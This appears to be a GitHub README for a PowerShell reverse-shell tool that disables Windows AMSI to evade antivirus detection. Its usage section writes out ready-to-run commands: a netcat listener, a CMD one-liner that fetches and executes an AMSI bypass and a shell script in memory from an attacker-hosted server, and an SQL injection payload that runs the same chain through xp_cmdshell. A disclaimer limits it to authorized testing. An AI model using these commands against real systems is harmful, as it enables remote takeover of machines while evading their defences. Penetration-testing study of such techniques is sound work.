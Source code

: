 # PowerShell Reverse Shell with AMSI Bypass

This repository contains a PowerShell script to establish a reverse shell connection while bypassing AMSI (Antimalware Scan Interface) to evade detection by antivirus software. The script is designed for educational purposes and penetration testing in authorized environments.

---

## Table of Contents
1. [Description](#description)
2. [Requirements](#requirements)
3. [Usage](#usage)
4. [How It Works](#how-it-works)
5. [Why Linkin Park?](#why-linkin-park)
6. [Disclaimer](#disclaimer)

---

## Description

This project demonstrates how to:
1. Bypass AMSI to disable antivirus detection.
2. Download and execute a PowerShell reverse shell script from a remote server.
3. Establish a reverse shell connection to a specified IP and port.

The repository includes:
- `amsi.txt`: A script to bypass AMSI.
- `shell.ps1`: A PowerShell reverse shell script.

---

## Requirements

To use this project, you need:
- A Windows machine with PowerShell installed.
- A remote server to host the `amsi.txt` and `shell.ps1` files (e.g., a Python HTTP server).
- A listener on the attacker's machine to receive the reverse shell connection (e.g., `netcat`).

---

## Usage

### 1. Set Up the HTTP Server
Host the `amsi.txt` and `shell.ps1` files on a remote server. You can use a Python HTTP server for this:

```bash
python -m http.server 8000
```

### 2. Start a Listener
On the attacker's machine, start a listener to receive the reverse shell connection:

```bash
rlwrap -cAr nc -lvp 443
```

### 3. Execute the Payload

#### **From the Target Machine (CMD)**:
On the target machine, run the following command in CMD:

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-Expression (Invoke-WebRequest -Uri 'http://192.168.1.94/amsi.txt' -UseBasicParsing | Select-Object -ExpandProperty Content); $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri 'http://192.168.1.94/shell.ps1' -UseBasicParsing).Content); Invoke-Expression $scriptContent"
```

Replace `192.168.1.94` with the IP address of your HTTP server.

---

#### **From an SQL Injection (Burp Suite)**:
If you have an SQL Injection vulnerability where you can execute commands using `xp_cmdshell`, run the following command from Burp Suite:

```sql
parameter=test'; EXEC xp_cmdshell 'powershell IEX (Invoke-WebRequest -Uri \"http://192.168.1.94/amsi.txt\" -UseBasicParsing).RawContent ; $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri \"http://192.168.1.94/shell.ps1\" -UseBasicParsing).Content); Invoke-Expression $scriptContent';--
```

**Steps**:
1. Replace `http://192.168.1.95` with the IP address of your HTTP server.
2. Convert the command to URL encoding using **Ctrl + U** in Burp Suite.
3. Send the request to execute the payload.

---

## How It Works

1. **AMSI Bypass**:
   - The `amsi.txt` script disables AMSI, allowing the execution of scripts that would otherwise be blocked by antivirus software.

2. **Reverse Shell**:
   - The `shell.ps1` script establishes a TCP connection to the attacker's machine and provides an interactive shell.

3. **Remote Execution**:
   - The payload is downloaded and executed directly in memory, reducing the chances of detection by endpoint protection tools.

---

## Why Linkin Park?

The variables in the `shell.ps1` script are named after members of the band **Linkin Park** as a tribute to their music and legacy. Here's the breakdown:
- `$chester`: Chester Bennington, the iconic lead vocalist.
- `$mike`: Mike Shinoda, the band's co-lead vocalist, rapper, and multi-instrumentalist.
- `$shinoda`: Another nod to Mike Shinoda.
- `$bennington`: Chester Bennington's last name.
- `$hahn`: Joe Hahn, the band's DJ and creative director.
- `$phoenix`: Phoenix Farrell, the bassist.
- `$bourdon`: Rob Bourdon, the drummer.

This naming convention adds a personal touch to the script while maintaining its functionality.

---

## Disclaimer

This project is intended for educational and authorized penetration testing purposes only. Do not use this tool for illegal or malicious activities. The author is not responsible for any misuse of this software. Always ensure you have proper authorization before using this tool in any environment.
